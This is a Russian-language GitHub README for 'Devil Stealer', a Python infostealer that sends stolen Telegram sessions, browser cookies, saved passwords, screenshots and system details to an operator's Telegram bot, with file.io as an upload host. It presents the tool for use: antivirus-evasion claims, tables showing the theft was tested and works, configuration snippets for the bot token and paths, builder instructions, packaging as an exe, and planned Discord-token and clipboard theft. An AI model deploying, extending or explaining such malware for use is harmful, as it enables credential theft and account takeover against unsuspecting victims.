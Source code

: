 # 😈 Devil Stealer 😈
### Python стиллер с отправкой через Telegram бота

## ☢ Обновление 2.0 (20.09.2023)
### Что нового:
⭕ *`Исправленны ошибки`*

⭕ *`Создан билдер для стиллера. Теперь стиллер создать можно гораздо проще и без кода`*

⭕ *`Исправленна работоспособность стиллера в браузере Chrome`*

⭕ *`Создан рандомный title для стиллера`*

⭕ *`Сделана защита от многих антивирусов`*


## 💨 Какие данные ворует стиллер
- Телеграмм сессия
- Куки с Chrome
- Куки с Firefox
- Куки с Opera
- Куки с Yandex
- Куки с Amigo
- Куки с Edge

- Пароли с Chrome
- Пароли с Firefox
- Пароли с Opera
- Пароли с Yandex
- Пароли с Amigo
- Пароли с Edge
  
- Снимок экрана компьютера
- Информация о ПК
  - Время запуска стиллера
  - Имя пользователя/компьютера
  - IP
  - MAC адрес
  - Hostname
  - Информация о сетевых подключениях
  - Найденные программы стиллером
  - Информация о CPU
  - Информация о GPU
  - Информация о оперативной памяти
  - Информация о дисках
  - Информация об ОС 

### 🎯 Последнии тесты стиллера
**Версия python на которой проводились тесты: 3.11**

**Версия библиотек на которых проводились тесты:
Pillow 10.0.0
browser-cookie3 0.19.1
psutil 5.9.5
pywin32 306
pyTelegramBotAPI 4.13.0**
| Данные | Дата последнего теста | Работает |
| ----------- | ----------- | ----------- |
| Куки с Chrome    | 28.08.2023   | Да   |
| Куки с Firefox    | 27.08.2023   | Да   |
| Куки с Opera    | 27.08.2023   | Да   |
| Куки с Yandex    | 28.08.2023   | Да   |
| Куки с Amigo    | -   | ?   |
| Куки с Edge    | 27.08.2023   | Да   |
| Пароли с Chrome    | 28.08.2023   | Да   |
| Пароли с Firefox    | 28.08.2023   | Да   |
| Пароли с Opera    | 27.08.2023   | Да   |
| Пароли с Yandex    | 28.08.2023   | Да   |
| Пароли с Amigo    | -   | ?   |
| Пароли с Edge    | 28.08.2023   | Да   |
| Сессия Telegram    | 28.08.2023   | Да   |
| Снимок экрана    | 28.08.2023   | Да   |
| Информация о ПК    | 28.08.2023   | Да   |

## 💣 Установка/Использование без билдера

> [!ВНИМАНИЕ!] СТИЛЛЕР РАБОТАЕТ ТОЛЬКО НА WINDOWS

**Установка библиотек**

```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
```

**После установки библиотек скачайте и откройте архив с данным репозиторием**

**Стиллер (код) без билдера находится в папке devilStealer**



**Отредактируйте bot.py**

Измените ADMIN_ID на ваш айди телеграмма (Получить можно в боте @chatIDrobot)


Измените bot = telebot.Telebot("СЮДА ТОКЕН ВАШЕГО БОТА") (Создать бота можно в @BotFather)

```python
ADMIN_ID = "ID" # Your telegram id
FILE_IO_API_URL = "https://file.io"

bot = telebot.TeleBot("TOKEN") # Your bot token
```

**Если вы хотите другой путь на сохранение временных файлов стиллера то отредактируйте stealer.py**

```python
FILE_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData"
FILE_COOKIE = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\cookie"
FILE_PASSWORDS = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\passwords"
FILE_TG = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealerData\tdata"
SCREENSHOT_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming\DevilStealer\Datascreenshot.jpg"
ZIP_PATH = fr"C:\Users\{os.getlogin()}\AppData\Roaming"
```

**!!!ВНИМАНИЕ ПУТЬ АРХИВА НЕ ДОЛЖЕН БЫТЬ В ПАПКЕ ДАННЫХ (FILE_PATH путь до этой папки и других констант) СТИЛЛЕРА!!!**

**Фаил для запуска bot.py**

**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**




## 💣 Установка/Использование с билдером


**Установка библиотек для корректной работы стиллера**

```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
```

**Установка библиотек для корректной работы билдера**


```
pip install colorama
```


**После установки библиотек скачайте и откройте архив с данным репозиторием**

**Стиллер с билдером находится в папке devilStealer-Builder**


**Запустите фаил builder.py**
> ```python builder.py```


**Следуйте инструкциям**


![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/Screenshot_1.png?raw=true)
![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/Screenshot_2.png?raw=true)
![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/Screenshot_3.png?raw=true)



**После сборки стиллера код будет лежать в папке devilStealer**

**Фаил для запуска bot.py**

**Чтобы сбилдить стиллер в exe используйте nuitka или pyinstaller**


![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/Screenshot_4.png?raw=true)

## 🌤 Скоро будет
1. Получение куки и пароли с других браузеров
2. Получение данных с FileZilla
3. Получение токена Discord
4. Другие способы отправки логов
5. Работа стиллера на Linux
6. Получение данных с буфера обмена



## Скриншоты работы стиллера

![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/screen1.jpg?raw=true)
![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/screen2.jpg?raw=true)
![Screen](https://github.com/0xSn1kky/devilStealer/blob/main/screenshots/screen4.jpg?raw=true)
